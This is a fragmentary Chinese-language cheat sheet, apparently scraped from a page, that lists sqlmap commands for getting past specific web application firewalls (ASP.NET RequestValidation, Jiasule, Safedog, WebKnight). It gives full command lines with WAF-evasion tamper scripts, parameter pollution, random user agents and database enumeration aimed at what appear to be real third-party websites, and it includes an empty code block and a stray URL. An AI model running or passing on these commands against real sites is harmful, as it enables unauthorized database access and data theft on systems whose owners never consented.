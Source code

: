 WAF/IPS/IDS identified as 'ASP.NET RequestValidationMode (Microsoft)'

第二种： WAF/IPS/IDS identified as 'ASP.NET RequestValidationMode (Microsoft)'
```
sqlmap -u "http://member.niceloo.com/Project/ClassSearch.aspx?KeyWord=消防" --hpp -v3 -tamper "charunicodeencode.py,charencode.py" --thre
ad 10 --dbs

```
第三种：WAF/IPS/IDS identified as 'Generic (Unknown)'

```
C:\Users\Administrator>sqlmap -u "http://66123123.com/Goods/GoodsSearch?keyword=复印纸" --hpp -v3 -tamper "charunicodeencode.py,charencode.py,space2comment" --random-agent --flush-session --hex --thread 10

```
WAF/IPS/IDS identified as 'Jiasule Web Application Firewall (Jiasule)'


第四种： WAF/IPS/IDS identified as 'Safedog Web Application Firewall (Safedog)'
```


```


http://fans.sports.qq.com/post.htm?id=1602852759616356425&mid=62+#1_allWithElite


 WAF/IPS/IDS identified as 'WebKnight Application Firewall (AQTRONIX)'